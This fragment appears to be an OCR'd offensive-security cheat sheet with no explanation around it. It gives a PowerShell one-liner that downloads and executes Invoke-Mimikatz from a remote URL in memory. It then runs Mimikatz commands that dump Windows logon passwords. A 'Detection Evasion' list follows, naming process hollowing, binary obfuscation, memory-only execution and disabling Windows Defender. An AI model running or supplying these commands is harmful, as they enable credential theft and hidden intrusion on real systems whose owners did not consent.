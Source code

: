 
powershellIEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
Detection Evasion

Use process hollowing
Encrypt/obfuscate binary
Use memory-only execution
Disable Windows Defender